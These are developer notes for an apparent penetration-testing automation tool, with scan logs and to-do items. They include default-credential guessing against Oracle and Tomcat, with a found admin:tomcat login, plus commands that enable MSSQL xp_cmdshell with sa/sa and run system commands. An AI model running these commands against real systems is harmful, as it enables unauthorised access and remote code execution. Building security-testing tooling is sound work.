17:17:05 DEBUG -: Error during connection with this account: `ORA-12514: TNS:listener does not currently know of service requested in connect descriptor`
17:17:05 DEBUG -: Try to connect with APPS/APPS
17:17:05 DEBUG -: Oracle connection string: APPS/APPS@10.190.98.115:1521/LISTENER
=> correction:
/bin/bash -c "export ORACLE_HOME=`file /usr/lib/oracle/*/client64/ | tail -n 1 | cut -d':' -f1`; export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib; export PATH=$ORACLE_HOME/bin:$PATH; python2.7 odat.py passwordguesser -s 10.190.98.114 -p 1521 -d SCAN3 -vv --force-retry --accounts-file accounts/accounts_multiple.txt"


- More default creds for mssql
https://github.com/mubix/post-exploitation-wiki/blob/master/windows/mssql.md












- smartmodule method changeme:

Loaded 113 default credential profiles
Loaded 324 default credentials

[10:57:26] Configured protocols: http
[10:57:26] Loading creds into queue
[10:57:26] Apache Tomcat basic auth matched: Tomcat Manager Application
[10:57:26] Apache Tomcat Host Manager basic auth matched: Tomcat Host Manager Application
[10:57:26] Fingerprinting completed
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred tomcat:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred admin:admin at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/manager/html
[10:57:26] Invalid Apache Tomcat default cred cxsdk:kdsxc at http://10.250.87.209:8080/tomcat/manager/html
[10:57:26] Invalid Apache Tomcat default cred xampp:xampp at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred QCC:QLogic66 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ovwebusr:OvW*busr1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred cxsdk:kdsxc at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred ADMIN:ADMIN at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:role1 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred xampp:xampp at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:s3cret at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred QCC:QLogic66 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:None at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:changethis at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred root:root at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:j5Brn9 at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:role1 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred role1:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred tomcat:changethis at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:j5Brn9 at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred role1:tomcat at http://10.250.87.209:8080/host-manager/html
[10:57:27] Invalid Apache Tomcat default cred j2deployer:j2deployer at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred ADMIN:ADMIN at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred tomcat:s3cret at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat default cred admin:None at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred admin:admin at http://10.250.87.209:8080/host-manager/html
[10:57:27] [+] Found Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/manager/html
[10:57:27] [+] Found Apache Tomcat default cred : at http://10.250.87.209:8080/manager/html
[10:57:27] Invalid Apache Tomcat Host Manager default cred j2deployer:j2deployer at http://10.250.87.209:8080/host-manager/html
[10:57:30] Invalid Apache Tomcat default cred root:root at http://10.250.87.209:8080/manager/html
[10:57:30] Invalid Apache Tomcat default cred admin:tomcat at http://10.250.87.209:8080/tomcat/manager/html
[10:57:30] Scanning Completed


[10:57:30] Found 1 default credentials

Name           Username    Password    Target                                  Evidence
-------------  ----------  ----------  --------------------------------------  ----------
Apache Tomcat  admin       tomcat      http://10.250.87.209:8080/manager/html


==> m = re.findall('\[\+\] Found (.*) default cred (\S*):(\S*) ', text)

- Mode fast => ne pas reafficher table des targets au debut de chaque target

- MSSQL - postexploit
/bin/bash -c 'python2.7 msdat.py all -s 10.244.214.126 -p 1433 -U sa -P sa -v <<< C'; 

- MSSQL postexploit add shell exec:
python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --enable-xpcmdshell
/bin/bash -c 'python2.7 msdat.py xpcmdshell -s 10.244.214.126 -p 1433 -U sa -P sa -v --shell <<< "whoami && net user"''

- IMPORTANT: encadrer par /bin/bash -c '...' pour toutes les cmds avec <<< any

- impacket install => add sudo pip2 install .
  + reinstall dans docker

- smb => smbexec: also add psexec.py / wmiexec.py


- 
[2018-11-15 03:48PM]  JBoss HTTP Headers (Unreliable) (version 4.2)
[2018-11-15 03:48PM]  JBoss RMI Interface (version Any)
[2018-11-15 03:48PM]  JBoss Status Page (version Any)
[2018-11-15 03:48PM] Fingerprinting completed.
[2018-11-15 03:48PM] Loading auxiliary for 'jboss'...
[2018-11-15 03:48PM] Finished at 2018-11-15 03:48PM

- example de confusion tomcat / jboss :

Server JBoss :
| >207 | 10.244.120.34  | 10.244.120.34  | 8080 | tcp   | http    | product: Apache Tomcat/Coyote JSP engine version: 1.1                 | http://10.244.120.34:8080 

[*] [SMART] Wappalyzer fingerprinting returns: ['java', 'jboss-application-server', 'apache-tomcat', 'java-servlet', 'jboss-web']
[+] [SMART] New detected option: server = tomcat
[+] [SMART] New detected option: language = java
[+] [SMART] Change option: server = tomcat -> jboss
[+] [SMART] Change option: server = jboss -> tomcat
[+] [SMART] Change option: server = tomcat -> jboss


- exemple detection plusieurs version JBoss:
2018-11-15 05:04PM] Making GET request to http://10.244.120.34:8080/status?full=true with arguments {'verify': False, 'timeout': 5.0}
[2018-11-15 05:04PM] Matched 5 fingerprints for service jboss
[2018-11-15 05:04PM]    JBoss Web Manager (version 5.1)
[2018-11-15 05:04PM]    JBoss EJB Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss HTTP Headers (Unreliable) (version 5.0)
[2018-11-15 05:04PM]    JBoss JMX Invoker Servlet (version Any)
[2018-11-15 05:04PM]    JBoss RMI Interface (version Any)
[2018-11-15 05:04PM] Fingerprinting completed.
[2018-11-15 05:04PM] Loading auxiliary for 'jboss'...
[2018-11-15 05:04PM] Finished at 2018-11-15 05:04PM

                                                                                                                                                                                                      


[*] [SMART] Running post-check method "clusterd_detect_server" ...
[*] [SMART] Detected option (no update): server = jboss


- Add start method in SmartModules that detect product from grabbed banner in service.banner
   and update OS if ostype 

    example:
    product: Microsoft IIS httpd version: 6.0 ostype: Windows 
    product: Apache httpd version: 2.2.4 extrainfo: (Unix) DAV/2
    product: Apache httpd version: 2.0.63 extrainfo: DAV/2 hostname
    product: Microsoft Windows 7 - 10 microsoft-ds extrainfo:        |                             |                      | 0      |       |
|      |                |      |       |         | workgroup: FRA hostname: F98W00189184 ostype: Windows 
product: Web-Server httpd version: 3.0 extrainfo: Ricoh Aficio   | http://10.250.236.149:80    |                      | 1      |       |
|      |                |      |       |         | printer web image monitor devicetype: printer
product: Oracle TNS listener version: 12.1.0.2.0 
product: Apache Tomcat/Coyote JSP engine version: 1.1 
product: IBM Tivoli Enterprise Portal extrainfo: Servlet 3.
product: Microsoft SQL Server 2012 version: 11.00.6020; SP3 
product: VMware Workstation SOAP API version: 14.0.0 
product: Jetty version: 8.1.3.v20120522
| 9604 | 10.102.235.134 | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9605 | 10.5.4.85      | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7001 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9606 | 10.2.25.53     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9607 | 10.2.152.50    | 56531 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9608 | 10.62.8.1      | 50456 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2500; SP1    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9609 | 10.2.208.38    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.5000; SP4        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9610 | 10.102.42.95   | 64778 | tcp   | mssql   | product: Microsoft SQL Server 2005 version: 9.00.1399; RTM        |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9611 | 10.102.235.165 | 57454 | tcp   | mssql   | product: Microsoft SQL Server 2014 version: 12.00.2000 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9612 | 10.2.25.140    | 55374 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9613 | 10.2.209.186   | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.2425 ostype: |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9614 | 10.2.28.41     | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.2100; RTM       |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9615 | 10.2.153.31    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2012 version: 11.00.7462 ostype:    |     |         | 1      |       |
|      |                |       |       |         | Windows                                                           |     |         |        |       |
| 9616 | 10.2.25.109    | 55256 | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.1600; RTM    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
| 9617 | 10.1.98.127    | 1433  | tcp   | mssql   | product: Microsoft SQL Server 2008 R2 version: 10.50.4000; SP2    |     |         | 1      |       |
|      |                |       |       |         | ostype: Windows                                                   |     |         |        |       |
+------+----------------+-------+-------+---------+-----------------------


Services to add
===============
* NFS
* MongoDB
* RPC
* DNS
* LDAP

